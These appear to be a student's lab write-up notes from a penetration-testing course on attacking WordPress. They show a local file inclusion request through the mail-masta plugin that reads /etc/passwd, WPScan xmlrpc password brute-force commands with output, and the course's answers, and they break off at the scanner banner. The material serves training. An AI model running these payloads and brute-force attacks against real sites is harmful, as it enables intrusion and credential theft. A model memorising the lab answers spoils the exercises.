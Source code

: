 ```shell-session
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s http://138.68.185.195:30821/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep "bash"

sally.jones:x:1001:1001:Linux User,,,:/home/sally.jones:/bin/bash
```

> The answer is **`sally.jones`**, which can be found without `grep` and can be seen as the last entry in the output with no `grep`. `/nologin` is suffixed to the end of the file paths to make it more clear.
# Attacking WordPress Users
## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method  uses the WordPress API to make login attempts through `/xmlrpc`. The `xmlrpc` method is preferred as it is faster.
### WPscan - XMLRPC

```shell-session
trop3n@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

> [!question]
> Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.

After spawning the target system, students need to perform a **bruteforce attack** using `WPscan` with either the `wp-login` method or `xmlrpc`, however, since the `xmlrpc` method is allowed, it is preferred over `wp-login`. Students will find out the password for the `roger` user is **`lizard`**.

```shell
wpscan --password-attack xmlrpc -t 40 -U roger -P /usr/share/wordlists/rockyou.txt --url http://STMIP:STMPO
```

```shell-session
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ wpscan --password-attack xmlrpc -t 40 -U roger -P /usr/share/wordlists/rockyou.txt --url  http://206.189.25.173:32521

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
```